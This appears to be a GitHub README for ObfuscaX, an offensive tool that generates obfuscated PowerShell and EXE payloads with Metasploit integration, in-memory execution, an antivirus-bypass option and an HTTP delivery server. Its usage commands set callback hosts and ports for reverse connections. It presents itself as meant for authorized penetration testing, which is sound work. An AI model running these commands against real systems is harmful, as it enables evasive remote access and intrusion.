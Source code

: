 # 🔒 ObfuscaX – Payload Obfuscation Framework (BETA)

**ObfuscaX** is a tool for creating and testing **obfuscated payloads** 🔐  
Built for **authorized** penetration testing & security research 🛡️

---

## ✨ Features
- 🌀 Multiple obfuscation modes (static & dynamic)
- ⚙️ Payload generator (PS1, EXE, etc.)
- 🔗 Metasploit integration
- 🧠 In-memory execution (no disk artifacts)
- 💻 Simple command-line interface

---

## 📦 Installation

**Requirements**  
- 🐍 Python 3.13+  
- 💣 Metasploit Framework *(optional)*  
- 🖥️ Linux / Windows (WSL supported)  

**Setup**
```bash
git clone https://github.com/blueiewu/ObfuscaX.git
cd ObfuscaX
python -m venv .venv
source .venv/bin/activate   # Windows: .venv\Scripts\activate
pip install -r requirements.txt
```
🚀 Usage

Generate a payload
```
python src/obfuscator.py --generate --type ps1 \
  --lhost 192.168.1.10 --lport 4444 \
  --obf dynamic --in-memory
```
Batch mode (from config file)
```
python src/obfuscator.py --batch config.json
```
Run HTTP delivery server

```
python src/obfuscator.py --http-server --http-port 8443 --require-token MYTOKEN

```

📜 Example Config (config.json)

```
{
  "payloads": [
    {
      "type": "exe",
      "parameters": {
        "lhost": "10.0.0.5",
        "lport": 8080,
        "obf": "static",
        "av_bypass": true
      },
      "output": "output/payload.exe"
    }
  ]
}

```
⚠️ Notes

   - ✅ Use only with permission

   - 🧪 Perfect for lab testing & training

   - 🐞 Check logs/ for troubleshooting info

📄 License

   - MIT License © 2025 blueiewu
